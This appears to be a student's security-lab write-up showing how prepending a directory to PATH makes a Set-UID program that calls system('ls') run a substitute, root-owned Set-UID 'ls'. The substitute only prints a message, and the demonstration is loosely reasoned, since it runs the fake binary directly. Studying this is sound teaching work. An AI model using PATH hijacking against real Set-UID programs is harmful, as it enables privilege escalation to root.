 ## Task 6: The PATH Environment Variable and Set-UID Programs:
Calling `system()` within a **Set-UID** program is risky because the shell program invoked can be influenced by user-defined environment variables, such as **PATH**. Malicious users can alter these variables to manipulate the behavior of the **Set-UID** program, potentially leading to security vulnerabilities.

- **Note:** The `PATH` variable is an environment variable that tells the operating system where to look for executable files (programs) when you type a command in the terminal.

1) This **Set-UID** program is supposed to execute the `/bin/ls` command:
```c
#include <stdlib.h>

int main()
{
    system("ls");
    return 0;
}
```
- We want to edit this program to run our own malicious code instead of `/bin/ls`. Edit the code and compile it, change its owner to root, and make it a **Set-UID** program. Name the program `ls`.
```c
#include <stdlib.h>
#include <stdio.h>

int main()
{
    printf("Hello! This is not the ls command anymore! I edited it! \n");
    return 0;
}
```
```bash
gcc -o ls ls.c
sudo chown root ls 
sudo chmod 4755 ls #make it set-uid
```

2) Now, if we write `ls`, it still runs the correct `/bin/ls` command. What we have to do is to edit the environment variable `PATH` to look in where our `ls` program exists.
```bash
export PATH=/home/seed/lab4/task6:$PATH
```
```bash
#BEFORE
printenv PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.

#AFTER
printenv PATH
/home/seed/lab4/task6:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.
```
- **Note:** If you changed PATH in your current terminal session using `export`, this change is temporary and will only last until you close the terminal. When you open a new terminal session, PATH will revert to its original value.

3) Now try to run the `ls` command ;)
```bash
$ ls #will run your malicious code!
Hello! This is not the ls command anymore! I edited it!

$ /bin/ls #this one will list all the files just right
ls ls.c task6 task6.c
```
### Why did it run our code instead of executing the `/bin/ls`?

    Because the `PATH` environment variable looks for the command `ls` in the current diretory (that we provided) first since it's specified. When it finds that `ls` exists, it runs our program instead of the shell command.

    Which proves to us that **Set-UID** programs may run malicious files with root privileges if the path variable is altered.